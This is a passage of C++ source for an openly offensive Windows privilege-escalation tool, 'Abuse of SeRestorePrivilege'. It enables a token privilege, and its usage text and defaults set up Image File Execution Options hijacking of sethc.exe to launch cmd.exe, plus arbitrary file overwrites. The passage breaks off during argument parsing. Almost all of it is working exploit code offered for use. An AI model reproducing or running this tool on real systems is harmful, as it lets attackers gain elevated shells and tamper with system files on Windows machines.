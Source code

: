 ```c++
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}

void PrintUsage()
{
    wprintf(
        L"Abuse of SeRestorePrivilege by @WHOAMI (whoamianony.top)\n\n"
        L"Arguments:\n"
        L"  -h                     Show this help message and exit\n"
        L"  -e <Dubugger, File>    Choose the type of exploit.\n"
        L"  -p <Program>           Specifies the original program name to IFEO hijacking.\n"
        L"  -c <Program>           Specifies the program to execute after IFEO hijacking.\n"
        L"  -s <Source>            Source file to read.\n"
        L"  -d <Destination>       Destination file to write.\n"
    );
}

int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken      = NULL;
    LPCWSTR expType    = L"Dubugger";
    LPCWSTR program    = L"sethc.exe";
    LPCWSTR command    = L"\"C:\\Windows\\System32\\cmd.exe\"";
    LPCWSTR sourceFile = NULL;
    LPCWSTR destFile   = NULL;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'e':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                expType = (LPCWSTR)argv[1];
            }
            break;
        case 'p':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
```